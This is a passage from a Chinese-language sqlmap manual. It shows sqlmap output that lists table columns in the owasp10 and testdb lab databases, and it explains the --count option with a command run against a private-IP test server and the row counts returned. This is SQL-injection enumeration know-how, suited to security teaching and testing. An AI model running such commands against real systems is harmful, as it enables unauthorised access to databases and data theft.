 ```
| date         | datetime |
| blogger_name | text     |
| cid          | int(11)  |
| comment      | text     |
+--------------+----------+

Database: owasp10
Table: hitlog
[6 columns]
+----------+----------+
| Column   | Type     |
+----------+----------+
| date     | datetime |
| browser  | text     |
| cid      | int(11)  |
| hostname | text     |
| ip       | text     |
| referer  | text     |
+----------+----------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
[...]
```

### 获取表中数据个数

参数：--count

有时候用户只想获取表中的数据个数而不是具体的内容，那么就可以使用这个参数。

列举一个Microsoft SQL Server例子：

```
$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --count -D testdb
[...]
Database: testdb
+----------------+---------+
| Table          | Entries |
+----------------+---------+
| dbo.users      | 4       |
| dbo.users_blob | 2       |
+----------------+---------+
```
